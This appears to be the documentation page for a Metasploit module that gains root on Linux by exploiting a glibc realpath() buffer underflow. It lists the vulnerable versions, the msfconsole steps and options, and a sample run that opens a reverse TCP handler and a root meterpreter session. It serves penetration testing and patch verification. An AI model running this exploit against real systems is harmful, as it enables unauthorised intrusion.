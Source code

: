 ## Description

  This module attempts to gain root privileges on Linux systems by abusing
  a vulnerability in GNU C Library (glibc) version 2.26 and prior.

  This module uses halfdog's RationalLove exploit to exploit a buffer
  underflow in glibc realpath() and create a SUID root shell. The exploit
  has offsets for glibc versions `2.23-0ubuntu9` and `2.24-11+deb9u1`.

  The target system must have unprivileged user namespaces enabled.


## Vulnerable Application

  This module has been tested successfully on:

  * Ubuntu Linux 16.04.3 (x86_64) with glibc version `2.23-0ubuntu9`
  * Debian 9.0 (x86_64) with glibc version `2.24-11+deb9u1`


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/glibc_realpath_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **COMPILE**

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether the exploit should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading a pre-compiled binary.


## Scenarios

  ```
  msf > use exploit/linux/local/glibc_realpath_priv_esc 
  msf exploit(linux/local/glibc_realpath_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/glibc_realpath_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.DhRxy0FQR.c' (35470 bytes) ...
  [*] Writing '/tmp/.Piya56UZVV' (207 bytes) ...
  [*] Launching exploit...
  [*] Sending stage (853256 bytes) to 172.16.191.171

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.171
  OS           : Ubuntu 16.04 (Linux 4.10.0-28-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```


